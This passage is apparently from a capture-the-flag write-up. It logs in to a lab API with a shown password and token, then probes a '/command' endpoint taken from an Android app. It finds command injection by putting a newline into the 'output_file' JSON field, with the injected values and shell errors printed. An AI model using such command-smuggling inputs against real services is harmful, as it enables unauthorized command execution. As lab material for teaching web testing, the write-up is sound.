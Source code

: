 ```http
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
content-type: application/json

{
"username":"developer","password":"bigbang"}
```
Provides us with the following response containing an access token:
```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.10.12
Date: Mon, 03 Feb 2025 10:27:54 GMT
Content-Type: application/json
Content-Length: 356
Connection: close

{
    "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTczODU3ODQ3NCwianRpIjoiYmU3YWVkODUtZDVlZC00N2RhLWE0YzQtYWU3MjFjZDkwMjdjIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmVsb3BlciIsIm5iZiI6MTczODU3ODQ3NCwiY3NyZiI6IjMxZDk0MzJmLTNkOGQtNGI4Yi04MTNkLWFlMGY0ZDNkZThjYiIsImV4cCI6MTczODU4MjA3NH0.UXxBxnJkGo2LwgE3Ed8Tj0_0rHVJ0l3givKc01SWPeY"
}
```
looking at the `/command` end point in `classes.dex` we find the following:
```java
{"command": "send_image", "output_file": <SNIP>
```
which shows us the proper commands that we can use, doing some trial and error, we get the following results:
```json
{"command":"send_image",
"output_file":"/home/developer/test"}
{
    "error": "Error generating image: "
}
{"command":"send_image\n touch /home/developer/test",
"output_file":"/home/developer/test"}
{
    "error": "Invalid command"
}
{"command":"send_image",
"output_file":"test;test2;test3"}
{
    "error": "Output file path contains dangerous characters"
}
{"command":"send_image",
"output_file":"/home/developer/test \n hi"}
{
    "error": "Error generating image: /bin/sh: 2: hi: not found\n"
}
```
which indicates a command injection when injecting a newline.
